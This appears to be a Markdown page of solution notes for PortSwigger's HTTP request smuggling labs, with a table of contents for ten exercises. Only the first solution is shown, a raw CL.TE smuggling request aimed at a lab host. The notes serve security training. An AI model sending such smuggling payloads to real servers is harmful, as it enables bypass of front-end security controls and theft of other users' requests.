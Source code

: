 
# HTTP Request Smuggling

don't forget to change protocol from HTTP 2.0 to HTTP 1.1 or vice versa when necessary

don't forget to fix the content length

if "Server Error: Communication timed out" when CL.TE --> maybe TE.CL but test for both anyways


## Table of Contents

- [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)
- [HTTP request smuggling, basic TE.CL vulnerability](#http-request-smuggling-basic-tecl-vulnerability)
- [HTTP request smuggling, obfuscating the TE header](#http-request-smuggling-obfuscating-the-te-header)
- [HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](#http-request-smuggling-confirming-a-clte-vulnerability-via-differential-responses)
- [HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](#http-request-smuggling-confirming-a-tecl-vulnerability-via-differential-responses)
- [Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls-clte-vulnerability)
- [Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls-tecl-vulnerability)
- [Exploiting HTTP request smuggling to reveal front-end request rewriting](#exploiting-http-request-smuggling-to-reveal-front-end-request-rewriting)
- [Exploiting HTTP request smuggling to capture other users' requests](#exploiting-http-request-smuggling-to-capture-other-users-requests)
- [Exploiting HTTP request smuggling to deliver reflected XSS](#exploiting-http-request-smuggling-to-deliver-reflected-xss)

## HTTP request smuggling, basic CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te


### Quick Solution
As said in the title this website is vulnerable to a simple CL.TE vulnerability. Payload in the next paragraph.


### Solution
Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The second response should say: ``Unrecognized method GPOST``.
